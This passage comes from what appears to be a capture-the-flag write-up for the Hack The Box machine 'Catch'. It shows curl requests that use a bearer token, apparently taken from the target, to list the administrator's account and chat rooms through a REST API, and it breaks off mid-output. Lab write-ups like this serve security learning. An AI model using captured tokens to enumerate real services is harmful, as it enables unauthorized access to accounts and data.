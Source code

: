 
Afterwards, we will try to find out the current user that we are registered as. From the output, we can see that we are currently registered as the Administrator user.

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -iLk http://catch.htb:5000/account
{
  "id": "61b86aead984e2451036eb16",
  "firstName": "Administrator",
  "lastName": "NA",
  "username": "admin",
  "displayName": "Admin",
  "avatar": "e2b5310ec47bba317c5f1b5889e96f04",
  "openRooms": [
    "61b86b28d984e2451036eb17",
    "61b86b3fd984e2451036eb18",
    "61b8708efe190b466d476bfb"
  ]
}
```

Next, let us try to get all the rooms belonging to the Adminstrator user from the REST API as well. From the output, we realize that all the rooms belong to the Administrator user and there is a room id that is allocated to each room. We will take note of the room id that is allocated to each room.

We also realize that each of the room displayed are public rooms and there are no passwords set for each room. This means that we can readily access the rooms at any time.
```
┌──(kali㉿kali)-[~]
└─$ curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -iLk http://10.10.11.150:5000/rooms
[
  {
    "id": "61b86b28d984e2451036eb17",
    "slug": "status",
    "name": "Status",
    "description": "Cachet Updates and Maintenance",
    "lastActive": "2021-12-14T10:34:20.749Z",
    "created": "2021-12-14T10:00:08.384Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b8708efe190b466d476bfb",
    "slug": "android_dev",
    "name": "Android Development",
    "description": "Android App Updates, Issues & More",
    "lastActive": "2021-12-14T10:24:21.145Z",
    "created": "2021-12-14T10:23:10.474Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b86b3fd984e2451036eb18",
    "slug": "employees",
    "name": "Employees",
    "description": "New Joinees, Org updates",
    "lastActive": "2021-12-14T10:18:04.710Z",
    "created": "2021-12-14T10:00:31.043Z",
    "owner": "61b86aead984e2451036eb16",
```